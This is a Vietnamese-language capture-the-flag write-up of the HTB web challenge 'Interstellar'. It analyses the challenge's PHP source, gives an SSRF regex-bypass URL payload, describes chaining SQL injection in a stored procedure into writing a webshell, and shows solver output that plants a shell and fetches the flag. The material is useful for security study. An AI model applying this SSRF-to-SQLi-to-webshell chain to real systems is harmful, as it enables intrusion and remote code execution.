




# Writeup Challenge Web HTB Interstellar
Challenge Scenario
It's just an old bug with a little twist to make things interesting!

## Phân tích 

Ở đây sẽ có 1 chức năng đăng nhập và đăng kí chúng ta thực hiện đăng kí 1 tài khoản bất kỳ và tiến hành đăng nhập vào trang chủ


Chúng ta có thể thấy được rằng khi vào trang chủ nó có 1 chức năng là thay đổi tên người dùng và nhập 1 giá trị URL bất kỳ. Tôi tiến hành nhập vào change new name.

Lúc này nó hiển thị 1 thông báo là chỉ rằng chỉ localhost mới có thể thay đổi được tên thì lúc này tôi đã nãy ra là đây là 1 SSRF vì ở chức năng communication có chức năng nhập URL. 
Tiến hành phân tích mã nguồn để xem rõ luồng hoạt động của chúng.
## Phân tích chi tiết mã nguồn
Đầu tiên là flag nằm đâu và nó sinh ra như thế nào
```Dockerfile
# Use the PHP 7.0 image with Apache
FROM php:7.0-apache

# Set the working directory
WORKDIR /var/www/html

COPY flag.txt /tmp/

RUN mv /tmp/flag.txt /$(openssl rand -hex 8)_flag.txt
```
Chúng ta có thể thấy được răng flag ban đầu được đưa vào tmp sau đó sử dụng openssl để random 8 kí tự và thư mục gốc làm việc /var/www/html
Đầu tiên logic nó hoạt động như sau bắt đầu ở file `register.php`
```php
<?php
session_start();
require_once 'utils/database.php';
require_once 'utils/smarty.php';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $name = $_POST['name'];
    $name = preg_replace('/[^a-zA-Z0-9]/', '', $name);
    if (empty($name)) {
        $smarty = getSmarty();
        $smarty->assign('error', 'Name cannot be empty');
        $smarty->display('register.tpl');
        exit();
    }
    $username = $_POST['username'];
    $password = $_POST['password'];
    $planets = ['Earth', 'Moon', 'Somewhere'];
    $randomPlanet = $planets[array_rand($planets)];

    $stmt = $conn->prepare("SELECT COUNT(*) AS user_count FROM users WHERE username = ?");
    if (!$stmt) {
        die("Prepare failed: " . $conn->error);
    }
    $stmt->bind_param('s', $username);
    $stmt->execute();
    $result = $stmt->get_result();
    $row = $result->fetch_assoc();

    if ($row['user_count'] > 0) {
        $smarty = getSmarty();
        $smarty->assign('error', 'Username already taken');
        $smarty->assign('name', $name);
        $smarty->assign('username', $username);
        $smarty->display('register.tpl');
        exit();
    }

    try {
        $stmt = $conn->prepare("CALL registerUser(?, ?, ?, ?)");
        if (!$stmt) {
            die("Prepare failed for procedure: " . $conn->error);
        }
        $stmt->bind_param('ssss', $name, $username, $password, $randomPlanet);
        $stmt->execute();

        $_SESSION['message'] = 'User registered successfully';
        header('Location: login.php');
        exit();
    } catch (Exception $e) {
        $smarty = getSmarty();
        $smarty->assign('error', 'An error occurred: ' . $e->getMessage());
        $smarty->assign('name', $name);
        $smarty->assign('username', $username);
        $smarty->display('register.tpl');
        exit();
    }
}

$smarty = getSmarty();
$smarty->display('register.tpl');
```
Nó lấy các thuộc tính `name, username, password, planets` sau đó nó tiên hành kiểm tra các thuộc tính phải khớp `a-z, A-Z, 0-9` và kiểm tra username có tồn tại chưa nếu chưa nó gọi `registerUser` đăng kí và chuyển về login.
Sau đó ở `login.php` nó lấy các thuộc tính và tiến hành đăng nhập người dùng.
### Lỗ hổng xảy ra ở đâu
Ở file `index.php`
```php
<?php
session_start();

require_once('utils/smarty.php');
require_once('utils/database.php');
require_once('utils/emoji.php');
$name = isset($_SESSION['name']) ? $_SESSION['name'] : null;
$id = isset($_SESSION['id']) ? $_SESSION['id'] : null;
$action = $_REQUEST['action'];

$smarty = getSmarty();
if ($id) {
    if(empty($action)){
        try {
            $query = "CALL searchUser(?)";
            $stmt = $conn->prepare($query);
            $stmt->bind_param("s", $name);
            $stmt->execute();
            if ($stmt->errno) {
                http_response_code(500);
                echo "SQL Error: " . $stmt->error;
                exit;
            }     
            $result = $stmt->get_result();
    
            $user = $result->fetch_object();
            if (!$user) {
                throw new Exception("No user found.");
            }
            $planet=$user->planet;
            $planet_emoji = pick_emoji($planet);
            $smarty->assign('planet', $planet_emoji);
            $smarty->assign('name', $name);
    
            $smarty->display('index.tpl');
    
        } catch (Exception $e) {
            
            $smarty->assign('message', 'An error occurred: ' . $e->getMessage());
            $smarty->assign('name', $name);
            $smarty->display('index.tpl');
        }
    }elseif($action =="edit"){
        if ($_SERVER['REQUEST_METHOD'] === 'POST') {
            if ($_SERVER['REMOTE_ADDR'] != '127.0.0.1') {
                $smarty->assign('error', "Only localhost can use this function!");
                $smarty->display('index.tpl');
                exit();
            }
            $new_name = $_REQUEST['new_name'] ?? '';
            try {
                $query = "CALL editName(?, ?)";
                $stmt = $conn->prepare($query);
                $stmt->bind_param("is", $id, $new_name);
                $stmt->execute();
    
                if ($stmt->affected_rows > 0) {
                    $_SESSION['name'] = $new_name;
                    $smarty->assign('message', "Done!");
                    $smarty->display('index.tpl');
                    exit();
                } else {
                    $smarty->assign('error', "Failed!");
                    $smarty->display('index.tpl');
                    exit();
                }
                $stmt->close();
            } catch (Exception $e) {
                echo "An error occurred: " . $e->getMessage();
            }
        }
    }
   
} else {
    header("Location: login.php");
    exit();
}
?> 
```
Ở file index.php nó gọi theo action rồi thực hiện gọi hàm `searchUser` để thực thi truy vấn câu lệnh SQL mà function `searchUser` ở `init.sql` thực hiện như sau:
```sql
CREATE PROCEDURE searchUser(IN name VARCHAR(255))
BEGIN
    SET @sql = CONCAT('SELECT * FROM users WHERE name = \'', name, '\'');
    PREPARE stmt FROM @sql;
    EXECUTE stmt;
    DEALLOCATE PREPARE stmt;
END //
```
Nó thực hiện nối chuỗi SQL trực tiếp và nếu name chứa câu lệnh SQL phá vỡ cú pháp ta có thể thoát khỏi chuỗi SQL và Inject Payload SQL mà bây giờ ở tham số name chúng ta phải gọi đến action edit mới có thể truyền vào payload của riêng mình mà ở action này lại nhận bắt buộc phải localhost mới có thể thay đổi được. 
Và lúc này ở `communicate.php` nó xảy ra lỗi SSRF như sau:
```php
<?php
session_start();

require_once 'utils/smarty.php';

$id = isset($_SESSION['id']) ? $_SESSION['id'] : null;
$smarty = getSmarty();
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $url = $_POST['url'];
        $data = $_POST['data'] ?? [];
        if(filter_var($url, FILTER_VALIDATE_URL)) {
            $parsedUrl= parse_url($url);
            if(preg_match('/motherland\.com$/', $parsedUrl['host'])) {    //currently just support call to your mother land 
                try {
                    $ch = curl_init();
                    $sessCookie = isset($_COOKIE['PHPSESSID']) ? $_COOKIE['PHPSESSID'] : '';
                    curl_setopt($ch, CURLOPT_URL, $parsedUrl['host']);
                    curl_setopt($ch, CURLOPT_POST, true);
                    curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($data));
                    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
                    curl_setopt($ch, CURLOPT_HTTPHEADER, [
                        "Cookie: PHPSESSID=$sessCookie;"
                    ]);
                    curl_setopt($ch, CURLOPT_TIMEOUT, 1);
                    $response = curl_exec($ch);
        
                    if (curl_errno($ch)) {
                        $error = 'cURL Error: ' . curl_error($ch);
                    } else {
                        $error = null;
                    }
        
                    curl_close($ch);
        
        
                    $smarty->assign('response', $response ?? '');
                    $smarty->assign('error', $error ?? '');
        
                    $smarty->display('communicate.tpl');
                } catch (Exception $e) {
                    $smarty->assign('error', 'An error occurred: ' . $e->getMessage());
                    $smarty->display('communicate.tpl');
                }
            }else{
                $smarty->assign('error','Wrong URL!');
                $smarty->display('communicate.tpl');
            }
        }else{
            $smarty->assign('error','Failed when parsing URL!');
            $smarty->display('communicate.tpl');
        }

    }else{
        $smarty->display('communicate.tpl');
    }
```
Ở function này nó thực hiện nhận tham số url và data sau đó nó thực hiện gọi function `parserURL` để phân tích URL đầu vào chúng ta có khớp với biểu thức `motherland\.com$/` không.  Sau đó khởi tạo một tiến trình curl để gọi thực thi URL đó. 
Thì ở đây chúng ta có thể bypass được biểu thức chính quy bằng cách đưa payload 
```txt
0://127.0.0.1:80;motherland.com:80/
```
Thì ở payload này chúng ta có thể đánh lừa được 3 lớp kiêm tra
```txt
0://127.0.0.1:80;motherland.com:80/
│   │              │
│   │              └─ đuôi giả để qua regex motherland.com
│   └─ đích thật muốn gọi: localhost:80
└─ scheme giả để PHP coi đây là URL hợp lệ
```
Trong `Trong communicate.php, code làm kiểu này:`, code làm kiểu này:
```php
if (filter_var($url, FILTER_VALIDATE_URL)) {
    $parsedUrl = parse_url($url);

    if (preg_match('/motherland\.com$/', $parsedUrl['host'])) {
        curl_setopt($ch, CURLOPT_URL, $parsedUrl['host']);
    }
}
```
PHP `parse_url()` hiểu gần như sau:
```php
scheme = "0"
host   = "127.0.0.1:80;motherland.com"
port   = 80
path   = "/"
```
Nên regex này pass:
```php
preg_match('/motherland\.com$/', "127.0.0.1:80;motherland.com")
```
vì chuỗi HOST kết thúc bở motherland.com
Sau khi đã bypass vào rồi chúng ta có thể Injection SQL vào tham số name để thực hiện RCE tại sao phải RCE bởi vì flagg được random và thư mục gốc /var/www/html bằng cách này chúng ta có thể ghi webshell vào thư mục gốc để RCE.

## Khai thác
Sau khi quá trình phân tich trên chúng ta có thể đưa ra luồng khai thác như sau

```txt
register_user -> login_user -> SSRF -> SQL to RCE 
```
Để tự động hóa lúc này tôi sẽ viết script python để tự động khai thác FLAG ở `solution.py`
```txt
PS D:\Downloads\a12c733c-03de-4b2c-9290-59ba1ef202ea> & C:\Users\ADMIN\AppData\Local\Programs\Python\Python314\python.exe d:/Downloads/a12c733c-03de-4b2c-9290-59ba1ef202ea/solution.py
[*] Registering attacker account...
[+] Registration successful.
[+] Login successful.
[+] Logged in, PHPSESSID = 7502aeb155bf9569b5c63ff9f8c293ca
[+] Name changed to SQLi payload
[*] Triggering SQLi payload...
[+] SQLi trigger request sent
[*] Verifying shell at http://154.57.164.78:32695/shell_90a08420.php...
[+] Shell successfully created!
[+] Access it at: http://154.57.164.78:32695/shell_90a08420.php?cmd=whoami
[*] Attempting to retrieve flag using shell at http://154.57.164.78:32695/shell_90a08420.php...
[+] Flag retrieved successfully!
[+] Flag: HTB{P3rtf3ct_c0mb1nation_t0_re4ch_th3_g4l4xY} 
PS D:\Downloads\a12c733c-03de-4b2c-9290-59ba1ef202ea> 
```
